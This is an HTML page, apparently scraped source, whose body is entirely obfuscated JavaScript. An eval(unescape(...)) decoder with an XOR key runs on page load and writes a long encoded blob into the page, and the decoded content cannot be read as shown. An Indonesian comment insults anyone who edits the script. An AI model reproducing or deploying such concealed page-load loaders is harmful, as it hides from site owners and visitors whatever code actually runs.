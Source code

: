 <!--
	Hyy Apa Yg Anda Lakukan Apakah Anda Inggin Merubah Script Fuck You Idiot!!!!
    -->
<html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%6d%65%32%35%63%37%61%35%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%30%34%36%39%38%35%34%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%35%34%33%37%31%38%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%38%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%6d%65%32%35%63%37%61%35%28%27') + '%40%34%73%78%73%73%4e%41%74%6e%6e%6d%4e%11%11%47%2d%33%32%1d%17%15%53%86%80%1d%16%2b%2b%2c%2e%32%3d%43%11%11%43%7d%79%78%77%6e%42%56%6e%63%76%69%6f%2f%6b%89%2c%58%7b%69%6a%6b%89%2d%80%2b%49%7c%63%77%2b%62%73%7b%43%3f%79%75%7f%73%6c%4e%11%11%47%70%77%71%7b%2d%7e%6e%73%44%27%75%68%74%72%29%2f%74%84%7c%6e%42%2e%79%71%6a%6c%69%31%68%79%6b%2b%2b%77%7b%65%6a%46%2c%74%7a%7b%70%7e%46%34%30%6c%7e%6f%79%82%7c%7a%6a%64%30%78%69%71%39%3e%6b%78%7f%6d%7a%76%63%33%6f%74%72%36%79%71%6a%6c%69%7d%40%71%40%78%69%71%2c%33%4d%4a%55%68%47%48%63%5f%70%5c%3e%70%69%6a%38%83%6a%5d%79%88%87%7b%69%52%76%58%85%6f%3c%55%50%32%7b%64%6f%58%6d%81%45%6b%5b%51%84%6d%57%55%6e%52%54%6a%4e%36%85%7f%38%5f%68%28%4e%10%16%47%72%6c%74%6d%2b%68%73%70%7b%65%73%78%46%28%4d%65%6a%6a%48%69%6a%2f%42%84%2c%35%30%49%53%7c%6e%6e%68%87%28%20%73%6d%76%6a%44%27%68%6e%78%6f%7c%76%70%79%75%74%71%2e%3f%42%16%11%40%73%6a%74%6c%2c%68%70%77%74%69%75%7f%41%29%4b%65%6b%6d%48%6a%6d%20%4e%82%2b%32%31%4f%53%7d%69%6e%6b%80%27%2c%75%6a%71%6b%42%27%76%69%82%78%76%72%68%78%2c%33%40%12%1a%41%71%6e%7b%68%20%6f%74%75%78%6b%71%74%40%2b%4f%6a%6f%61%4f%6e%6f%2c%4c%86%20%33%33%4b%5c%79%65%69%6f%82%2b%2e%71%61%70%69%46%28%48%62%7f%7f%79%6d%6d%7b%27%32%42%16%15%45%7d%69%7f%6a%2c%70%6e%7d%68%41%29%7b%70%74%70%6e%29%2c%6d%70%7e%79%69%75%7b%44%22%54%6a%68%77%6b%6b%21%2c%32%29%41%14%1a%40%76%6e%78%6f%2f%7e%6c%71%6e%42%2b%64%69%78%68%7e%77%7f%74%74%73%75%2d%29%63%73%75%7f%69%70%7b%4d%2f%5b%73%86%46%5b%6d%79%6e%72%6f%2f%41%73%68%6a%2f%5a%61%72%6c%6c%6d%7a%2f%59%69%75%74%7b%29%42%7e%74%44%2e%40%12%1a%41%70%72%71%72%20%74%79%6e%6a%43%28%78%79%78%7b%7c%43%3f%33%6d%74%72%7a%7c%3e%6a%73%74%68%75%65%6d%7b%72%7f%30%6c%7f%70%33%68%7c%7a%4f%6a%6a%76%75%72%86%4d%53%69%7c%34%5b%7f%6f%70%6e%7e%29%2f%72%68%70%46%28%7a%74%85%77%6e%7f%76%6a%65%79%2b%2b%7b%80%70%69%46%2c%78%6b%87%74%32%6f%78%7c%2e%4e%11%11%47%70%77%71%7b%2d%74%79%6a%6f%4d%2b%73%7f%78%7e%7c%4a%32%33%6d%70%77%74%7f%35%6c%73%71%68%7c%68%6d%7b%76%7a%3e%6f%74%76%33%6d%7c%73%42%6a%6a%72%70%7c%85%46%52%6f%6b%73%61%73%68%2c%2f%7b%65%70%46%2c%7f%7a%86%7c%68%7f%73%6a%6c%74%2b%2b%7f%85%7e%6a%4d%2a%78%6e%87%7d%3f%6f%78%78%2b%40%12%1a%41%70%72%71%72%20%74%79%6e%6a%43%28%78%79%78%7b%7c%43%3f%33%6d%74%72%7a%7c%3e%6a%73%74%68%75%65%6d%7b%72%7f%30%6c%7f%70%33%68%7c%7a%4f%6a%6a%76%75%72%86%4d%54%72%6f%76%6c%3b%4a%77%74%7b%6b%7d%27%2d%7e%6e%73%44%27%7f%7f%82%70%6b%7c%78%68%69%7f%28%29%74%85%7b%6e%41%29%7b%65%85%78%34%6c%7a%73%2b%45%16%16%42%73%79%73%77%2b%77%7b%65%6a%46%2c%74%7a%7b%70%7e%46%34%30%6f%7f%72%7f%78%32%69%70%7f%6a%70%6e%6e%79%79%7f%35%68%73%73%30%63%7e%7f%44%69%68%7d%75%77%82%41%5f%7a%79%6e%77%78%6e%77%64%2b%2b%79%69%72%42%27%7e%78%82%73%6c%73%74%6e%6e%78%29%2f%74%84%7c%6e%42%2e%74%69%83%7f%33%6d%7c%73%2a%42%16%15%45%3f%74%6e%6a%68%40%12%1a%41%6e%74%6b%80%20%73%75%68%73%70%7b%65%85%78%76%6a%77%75%41%2c%79%69%7a%7a%72%73%2c%6d%6e%75%73%69%40%2c%2c%71%71%7b%68%85%6f%70%7e%7e%41%2c%79%69%7a%7a%72%73%2c%6d%6e%75%73%69%40%2c%2c%71%71%7d%72%79%78%6a%6d%7f%7b%75%46%2b%7c%6a%74%78%7e%75%2f%6f%61%70%78%6e%47%29%2f%62%6a%6f%74%73%76%72%41%29%69%70%6f%6c%7b%2f%2c%45%12%13%4c%7f%7f%82%70%6b%41%1d%17%6e%74%6b%80%20%87%16%11%2c%2e%2f%20%6f%6d%68%74%6e%72%73%7e%75%68%44%2f%75%7f%70%33%2d%71%74%78%7b%78%46%31%30%32%33%6e%7b%31%6b%7c%73%6c%78%7c%71%7b%3e%6e%73%76%30%34%59%70%81%49%5b%6f%6d%7b%62%5d%62%30%5e%62%72%7b%3f%66%4d%87%88%67%55%34%4e%48%41%4d%4a%4a%4d%4f%4c%5c%6e%33%6a%5a%80%75%6b%7a%5a%77%87%5b%73%49%86%5e%7f%50%68%51%55%6c%65%7d%6a%89%5e%3b%3b%87%5e%57%3b%77%6c%4f%52%6c%42%4a%4d%78%30%7a%31%3a%3b%3b%33%79%77%79%79%69%53%4e%5d%3e%76%7b%6c%2e%37%44%1d%17%2c%2b%2f%29%62%6d%68%70%6b%7c%70%75%73%68%36%7c%70%8a%69%41%2b%6f%71%79%65%7f%47%16%15%29%20%2c%2b%69%6d%6d%74%67%7f%73%7e%71%6d%3d%7e%6e%7b%69%6f%7b%4a%2d%72%74%32%7b%65%7c%6e%6a%78%45%12%1a%2d%2c%2b%2f%29%20%2c%2b%68%79%7c%7c%7f%7f%46%2b%6c%7b%7f%7f%78%73%6d%77%7d%4b%10%16%86%12%13%1d%16%73%79%2c%85%12%1a%2d%2c%2b%2f%29%20%2c%2b%69%73%7c%6b%65%7f%46%2b%3f%42%1d%16%2b%2b%2c%2e%2f%20%2d%2c%73%6a%70%67%74%7f%41%2c%3c%7f%88%46%11%11%2f%29%20%2c%2b%2b%2c%2e%6d%61%6e%77%6c%7d%76%75%72%6f%36%75%73%6e%67%68%46%2b%73%70%7e%69%6a%79%31%69%7d%61%69%75%6e%71%7d%38%78%74%2b%7e%77%68%78%79%30%2b%7d%6e%62%6d%33%3b%30%2e%3f%3c%2d%3c%37%2f%39%39%30%2b%79%6b%6c%6e%38%3d%30%2b%3f%35%20%3c%37%2b%3c%30%38%35%34%30%2b%7d%6e%62%6d%33%3b%30%2e%3f%3c%2d%3c%37%2f%39%39%35%16%11%81%13%15%1d%17%32%6a%7c%7c%20%87%16%11%2c%2e%2f%20%2d%2c%2b%2f%79%7f%7f%72%7f%75%71%71%4a%2d%6d%69%7c%76%7c%79%7f%6e%47%13%15%20%2d%2c%2b%2f%29%20%2c%77%6e%6a%7a%45%20%3d%47%16%15%29%20%2c%2b%2b%2c%2e%2f%72%74%6b%73%7b%43%20%3c%40%16%16%2e%2f%20%2d%2c%2b%2f%29%74%73%7b%41%2c%3d%3a%25%46%11%11%82%14%1a%2c%2b%2b%2c%2e%2f%20%10%16%35%7f%76%7c%75%75%2b%87%13%15%20%2d%2c%2b%2f%29%20%2c%7b%74%7f%77%7b%79%72%72%41%2f%68%62%7f%74%77%79%7a%6a%4b%10%16%2b%2f%29%20%2c%2b%2b%2c%7a%70%70%47%3f%3b%44%14%1a%2c%2b%2b%2c%2e%2f%20%2d%70%6e%69%7d%4a%2c%3b%40%11%14%2f%20%2d%2c%2b%2f%29%20%7b%72%6f%78%76%45%20%39%39%2e%44%14%1a%81%16%11%15%13%15%4c%32%7f%7f%86%75%65%42%16%11%40%6d%6a%7e%79%69%79%41%10%20%2c%16%11%40%6a%76%76%2d%6f%77%6e%7a%73%41%29%7b%73%72%76%7e%2f%42%47%6c%6c%7e%78%6e%79%42%13%15%20%2d%2c%2b%2f%29%20%2c%47%6f%75%78%2f%63%71%6d%78%7c%44%22%6d%78%7e%2e%40%12%1a%2d%2c%2b%2f%29%20%2c%2b%2b%2c%2e%2f%20%2d%2c%2b%43%6f%7f%72%7f%2b%7f%7a%86%7c%68%41%29%7b%6c%88%78%36%78%74%6f%6b%7f%7a%46%2b%3d%79%88%2c%3e%7b%84%2e%47%70%85%2c%69%73%68%63%77%40%2b%6f%71%73%7f%7f%46%2b%78%71%79%78%6e%2b%11%14%2f%20%2d%2c%2b%2f%29%20%2c%2b%2b%2c%2e%2f%20%2d%47%29%2f%6f%61%6f%6e%46%2e%57%71%64%74%69%2b%49%75%7f%7b%6e%79%2e%36%36%20%7e%75%81%6a%44%22%39%3b%29%42%42%6d%4e%2d%54%6a%6c%72%65%68%2a%2a%2d%42%6d%3f%43%40%34%69%76%7e%78%45%47%74%7c%41%4c%6f%7e%45%43%6b%72%42%16%11%2c%2e%2f%20%2d%2c%2b%2f%29%20%2c%2b%2b%2c%2e%2f%4c%6b%73%75%7b%29%73%78%82%77%69%43%2d%7f%7d%6d%68%76%7d%89%46%2b%3b%32%46%3f%22%2d%6a%6a%6c%6c%4d%2e%52%75%68%77%6a%20%4b%70%74%78%6c%72%2e%2b%78%75%84%6a%4d%2f%39%3b%2d%29%63%73%77%74%7e%43%2d%77%75%75%7f%6a%29%72%69%6f%29%42%5d%7f%65%68%68%82%43%36%66%73%75%7f%42%42%6d%72%43%11%11%2f%29%20%2c%2b%2b%2c%2e%2f%20%2d%2c%2b%2f%29%20%40%6d%74%72%7a%2f%73%79%85%77%6a%44%22%73%7b%6a%6f%77%7b%89%47%2c%3b%31%41%30%2e%2b%6d%6d%6d%6a%4d%2f%55%75%6b%70%65%2c%4d%77%73%79%6a%72%2f%2c%68%70%75%7f%7e%46%29%7b%76%76%74%68%2e%2b%7c%70%8a%69%46%29%39%2c%41%5f%72%7c%78%2f%5a%7f%7e%79%82%2c%51%7a%72%2d%4d%6f%72%70%7e%2c%53%6a%7f%2e%4b%61%70%6d%6c%6a%6d%20%65%74%7e%7e%2e%58%65%6f%2c%4f%76%7a%70%70%6a%82%30%2e%56%20%52%72%77%86%29%57%6d%75%7f%2c%5a%70%20%5d%7e%6a%86%29%50%70%6e%6a%7f%6b%2f%43%75%6d%75%68%6c%20%65%74%7e%7e%2e%58%65%6f%7f%72%7b%6c%20%5f%6e%68%79%7c%76%74%84%2c%52%72%74%65%68%72%6a%78%6b%73%89%2d%4e%6e%69%76%72%69%2b%54%78%76%6a%72%2d%54%6a%6c%72%65%7e%78%2b%4f%71%72%65%2d%51%6e%7c%7a%61%6b%6e%41%2c%5a%76%64%6c%77%2b%4e%6d%61%2c%50%6e%6e%6b%71%63%74%6d%75%2f%4d%61%70%6a%76%2c%56%6e%63%76%75%75%68%29%59%72%72%2b%5b%6b%2f%41%7f%69%2b%56%77%64%73%75%6e%7f%77%6e%7e%2d%54%6a%6c%72%65%7e%2b%59%79%72%6a%8a%10%16%2b%2f%29%20%2c%2b%2b%2c%42%6b%79%7b%2c%68%73%68%73%7f%46%29%2e%40%12%1a%2d%2c%2b%2f%29%20%2c%2b%47%33%6a%76%76%43%11%11%2f%29%20%2c%2b%2b%2c%2e%43%3f%69%75%7d%41%14%1a%40%34%6f%75%78%41%1d%17%40%78%6c%7b%79%7c%7f%45%11%14%78%79%73%68%74%78%37%7f%72%68%77%75%6d%74%4d%6b%79%75%6c%7d%79%73%75%33%35%85%78%79%73%68%74%78%37%7f%7c%6e%75%34%29%77%74%79%7c%78%45%36%3f%7b%7c%7c%32%68%6e%63%68%6e%74%70%72%3e%6f%74%76%33%7e%7d%7f%6b%75%77%6a%37%70%74%7b%44%75%6a%42%31%3d%3c%3b%3d%3b%32%44%3c%3a%3b%3c%3d%30%3c%2b%32%82%14%1a%40%34%78%6f%7c%76%70%79%42%16%15%45%3f%7f%68%79%75%7e%7b%4e%10%16%47%6a%74%62%69%6f%2b%7f%7c%6c%4d%2f%74%7f%7b%79%73%46%34%34%7b%79%78%3e%84%73%7e%7b%2a%23%79%69%6e%32%6d%70%7d%32%7a%34%40%68%75%78%74%7b%70%6f%86%4d%3c%2e%2b%7b%80%70%69%46%29%6d%7e%7f%7c%74%6f%6a%7b%70%7f%72%34%83%31%7d%77%7f%6e%77%7c%6e%7f%65%31%6d%77%6d%7d%77%22%2d%7b%76%70%6d%65%41%29%7f%7e%6f%71%73%7d%6d%79%6a%77%74%2e%2b%7c%75%6a%7b%78%40%2e%3b%2d%29%78%69%72%6c%74%7a%42%22%3d%2e%45%43%36%65%71%69%6e%68%40%12%1a%41%75%6d%7d%68%7d%69%2b%7c%75%6a%7b%78%40%2e%3b%2d%29%78%69%72%6c%74%7a%42%22%3d%2e%2b%7c%7b%63%41%29%73%78%7a%7f%73%47%33%34%6b%37%74%73%7b%3f%78%71%7f%3e%73%69%7f%30%74%6f%3d%39%3b%38%46%72%89%72%7f%3a%31%74%70%3f%29%2b%6a%7c%6e%7d%68%6e%74%7d%6d%65%7e%46%29%3c%2c%2f%61%71%70%74%78%6f%75%70%77%78%6f%7c%6a%65%73%42%16%15%45%3f%75%6d%79%6d%73%6a%4e%10%16%47%30%71%74%71%77%4520469854%34%33%33%34%36%37%38' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</html>
